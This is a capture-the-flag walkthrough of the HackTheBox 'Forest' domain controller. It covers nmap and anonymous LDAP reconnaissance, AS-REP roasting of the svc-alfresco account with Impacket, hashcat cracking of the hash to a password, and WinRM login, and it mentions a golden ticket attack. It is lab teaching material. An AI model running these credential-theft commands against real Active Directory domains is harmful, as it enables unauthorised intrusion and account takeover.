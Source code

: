 # Forest

## Overview

A domain controller created by _HackTheBox_ with Exchange server installed in a minimal AD domain.

The machine covers the following techniques:

* [AS-REP Roasting](../../windows/credential-access/kerberos-ticket/as-rep-roasting-attack.md)
* [DCSync attack](../../windows/credential-access/os-credential-dumping/credential\_dumping.md#dcsync-attack)
* Bloodhound

## Reconnaissance

### Port Scanning

We use `nmap` to figure out what services are running on the target.

```bash
$ nmap -Pn -n -sS -p- -T4 --min-rate 1000 <IP>
...
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49702/tcp open  unknown
50008/tcp open  unknown
64429/tcp open  unknown
...
```

The results reveal the following information.

* port 88 tells us that this should be a _domain controller_
* port 389 allows us to fetch information about target AD domain via LDAP
* port 5985 may allow us access the target using _WinRM_ later

### LDAP

It seems that we can fetch information about the target AD domain via [LDAP anonymous authentication](../../windows/ad/adds/ldap.md#anonymous-authentication).

By querying the RootDSE information, we see that the target domain name is `htb.local.`

```bash
$ ldapsearch -H ldap://<IP> -x -b '' -s base
```

## Initial Access

### Alfresco

From the information gathered through anonymous LDAP query, we found a _service account_ named `svc-alfresco`.

To expand our knowledge of the technology used by our client, the next thing to do is to find what third-party service, which shall be AD-integrated, related this account.

By Google, we found a product named [Alfresco Content Services](https://docs.alfresco.com/content-services/7.0).

From the configuration, we see that the account related to this service has been configured with _Kerberos pre-authentication_ disable.

<figure><img src="../../images/forest_alfresco.png" alt=""><figcaption><p><a href="https://docs.alfresco.com/process-services/latest/config/authenticate/#configuration-steps">Alfresco - Configuration Steps</a></p></figcaption></figure>

This allows us to get the TGT for this account `svc-alfresco`, and conduct the [_AS-REP Roasting_ attack](../../windows/credential-access/kerberos-ticket/as-rep-roasting-attack.md) to retrieve the account password from the requested TGT.

### AS-REP Roasting

We use the `Impacket-GetNPUsers` to get the TGT ticket for the account `svc-alfresco`:

```bash
$ impacket-GetNPUsers htb.local/svc-alfresco -no-pass -format hashcat
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:25dea275afcce8003c360ab40353f112$1c819f4f545ec54a5b988c5402709abffb17105fd2e5ab6a47b0321fd90307767aef2e00f6504fc2eaf643c4884614ca62b6d938a45b19c87893b0bca1d1dfc3e628c97462de1625b8d492f0ad25932d37bc84e095a6bddcb6230d53066fa0c165a77a150e2837cf257c898e71c2fbb16411e905718cf59262d1d15159537a0c49c31b7f64d89f128e20a2becb4f0e47fd0b4ca10440539ca6038e5d14da2a8be833e857bc868afff34011a9ae150c4b296866c8dbddd48f9208bc324208b251af8ff35f7a205666166c8208c59cff2de2d9994aa67fc4e7eb6aac4b0cd9b1ec02bced2feb3a
```

Refer to [AS-REP Roasting - Impacket](../../windows/credential-access/kerberos-ticket/as-rep-roasting-attack.md#impacket) for more information.

We can crack the hash using `hashcat` with mode 18200:

```bash
$ hashcat --example|grep -i 'as.*rep' -B2

MODE: 18200
TYPE: Kerberos 5, etype 23, AS-REP
HASH: $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac
```

and get the password `s3rvice` for the account `svc-alfresco.`

<figure><img src="../../.gitbook/assets/圖片 (3) (2).png" alt=""><figcaption></figcaption></figure>

### WinRM

We can now login to the target host with the credential we got via [WinRM](../../windows/execution/remote/winrm.md).

```bash
$ evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```

## Miscellaneous

### Golden Ticket Attack

Since we get the account `krbtgt`'s password hash, we can conduct the [golden ticket attack](../../windows/credential-access/kerberos-ticket/golden-silver-ticket-attack.md#golden-ticket-attack).
